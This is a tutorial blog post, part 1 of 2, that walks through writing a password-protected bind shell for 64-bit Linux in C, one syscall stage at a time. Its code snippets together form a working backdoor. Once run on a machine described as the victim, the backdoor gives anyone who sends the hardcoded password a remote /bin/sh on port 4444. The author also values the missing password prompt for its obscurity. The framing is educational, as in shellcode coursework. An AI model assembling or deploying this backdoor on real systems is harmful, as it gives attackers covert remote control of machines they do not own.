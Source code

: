 ```yaml
---
title: "Writing a password protected bind shell in C"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.

To accomplish this goal, we need to take this process through 3 parts:
<ol>
    <il>1. Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.</il>
    <il>2. Secondly, the C code needs to be ported to x86_64 Assembly code.</il>
    <il>3. Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</il>
</ol>

This blog post will consist of two parts:

Part 1 - Writing a password protected bind shell in the C Programming Language
Par 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode

PART 1 - Writing a password protected bind shell for Linux in C
 
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.

What is a Bind Shell?

A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.

Creating the Bind Shell

In the process of creating a bind shell, we will be stepping through 7 stages:

Creating a new socket
Binding the newly created socket to a port
Listen for incoming connections on the newly created socket
Wait for incoming connections on the newly created socket
Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.
Wait for input (password) to be received and compare it against the correct password string
Spawn the shell, if password is correct
So let's get started in coding out the 7 stages.

Stage 1 - Creating a new socket

The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```c++
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. Referring to the man page for socket, it requires 3 arguments:

Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)
Communication Type - We will use SOCK_STREAM (TCP)
The third argument does not concern us so we will only pass 0

```c++
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.

Stage 2 - Binding the newly created socket to a port

In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:

The socket to bind to - We will use our new socket "sock"
Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.
Length of the data structure passed in argument 2. This was declared during the skeleton code stage.

```c++
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

Stage 3 - Listen for incoming connections on the newly created socket

The listen syscall accepts 2 arguments:

File descriptor of new socket in Stage 1
Backlog - Maximum number of pending connections in the queue

```c++
listen(sock, 2);
```

Stage 4 - Wait for incoming connections on the newly created socket

For this stage we will wait for connections on our newly created socket, using the accept syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.

The accept syscall takes 3 arguments:

The socket we are listening on
Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. 
Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.

```c++
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.

Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities

For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```c++
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

Stage 6 - Wait for input (password) to be received and compare it against the correct password string

Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.

The read syscall accept 3 arguments:

File descriptor of our newly created socket
Buffer - was assigned at the variables section of the code
Number of bytes to read from the file descriptor into the buffer

We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp syscall to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```c++
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

Stage 7 - Spawn the shell, if password is correct

So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.

The execve syscall executes a program using:

Pathname of the executable or script to run
A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable
Environmental variables for use by the program - We set this to NULL as we are not concerned with this

```c++
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.

The code for the password protected bind shell can be found here.

I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.

In PART 2 we will be discussing how to port all of the above to Linux x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
